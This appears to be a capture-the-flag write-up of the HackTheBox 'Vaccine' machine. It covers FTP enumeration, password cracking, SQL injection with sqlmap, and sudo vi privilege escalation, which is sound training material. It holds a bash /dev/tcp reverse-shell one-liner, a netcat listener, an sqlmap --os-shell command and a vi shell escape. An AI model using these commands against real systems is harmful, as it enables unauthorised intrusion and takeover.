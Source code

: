 ```yaml
---
title: "HackTheBox - Vaccine"
author: Nasrallah
description: ""
date: 2022-07-11 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, crack, john, zip2john, sqli, sqlmap, vim, sudo]
img_path: /assets/img/hackthebox/machines/vaccine/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Vaccine](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The target is running a ftp server with anonymous login allowed, we login and find a backup.zip file protected with a password, we use zip2john and get a password. The zip file has a index.php file that contains a username and password that we use to login in a webpage. The page has a search section vulnerable to sql injection, we use `sqlmap` to get command execution on the target and a reverse shell after that. Inside the web server's directory, we find a file that has a password for a user, and the latter is able to run a program as root, so we leverage that to get escalate to root.

# Enumeration

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.188.150 (10.129.188.150)
Host is up (1.5s latency).
Not shown: 997 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     vsftpd 3.0.3                                              
| ftp-syst:                 
|   STAT:                                                                      
| FTP server status:
|      Connected to ::ffff:10.10.16.10                                                                                                                        
|      Logged in as ftpuser                                                    
|      TYPE: ASCII
|      No session bandwidth limit                                              
|      Session timeout in seconds is 300
|      Control connection is plain text 
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 3 open ports. 
 - Port 21 running a FTP server with anonymous login allowed.
 - Port 22 running SSH.
 - Port 80 running Apache web server.

## FTP 

Let's login to the ftp server by providing the name `anonymous` and a blank password.

![](1.png)

Logged in successfully and found a file named **backup.zip**, then downloaded it using the command `get backup.zip`.

Let's unzip that file and see what's there.

![](2.png)

The file is protected with a password. We need to use `zip2john` to get a hash of that password and then crack the hash.

![](3.png)

We got the password, let's unzip the file now.

![](4.png)

We extracted two files, *index.php* and *style.css*. They must be the web server's files, let's print the content of index.php.

![](5.png)

Found the username **admin** and a MD5 hash. Let's use [Crackstation](https://crackstation.net/) to crack the hash.

![](6.png)

Great! Now let's move to the web server.

## Web

Let's navigate to the webpage.

![](7.png)

It's a login page for admin corp. Using the credentials we gathered, let's sign in.

![](8.png)

We're in an admin dashboard. Notice that there is a Search section. Everything we type in there get passed to a parameter in the url named `search`.

![](9.png)

# Foothold

Let's give the url to `sqlmap` along with the PHPSESSID cookie and see if the website is vulnerable to sql injection

`sqlmap -u 'http://10.129.188.150/dashboard.php?search=test' --cookie='PHPSESSID=utab5one0605nlfa81p85648p4'`

![](10.png)

The target seems to be vulnerable, let's try to get command execution by adding `--os-shell` option to the sqlmap command.

`sqlmap -u 'http://10.129.188.150/dashboard.php?search=test' --cookie='PHPSESSID=utab5one0605nlfa81p85648p4' --batch --os-shell`

![](11.png)

Nice, we can execute command on the target, but it's not really a shell, so let's get a reverse shell by executing the following command `bash -c "bash -i >& /dev/tcp/{your_IP}/1234 0>&1"`, But we need to setup a netcat listener first`nc -lvnp 1234`.

![](12.png)

Go to the listener and you should see the shell.

![](13.png)

# Privilege Escalation

After getting a shell, i used python pty trick to stabilize the shell.

```terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

"ctrl + z"

stty raw -echo;fg
```

If we go to the website files located in `/var/www/html`, we find the `dashboard.php` file that has passwords for our current user.

![](14.png)

Using the password we found, let's login using ssh.

```terminal
$ ssh postgres@10.129.188.150                                                                                                   
postgres@10.129.188.150's password: 
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 01 Aug 2022 10:58:39 AM UTC

  System load:  0.0               Processes:             184
  Usage of /:   32.6% of 8.73GB   Users logged in:       0
  Memory usage: 19%               IP address for ens160: 10.129.188.150
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

postgres@vaccine:~$ 
```

Let's check our current privileges with `sudo -l`.

![](15.png)


we can run the `/bin/vi` as root. Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo).

![](16.png)

We open the file with the command `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf` and then type these commands.

 - `:set shell=/bin/sh`
 - `:shell`

![](17.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).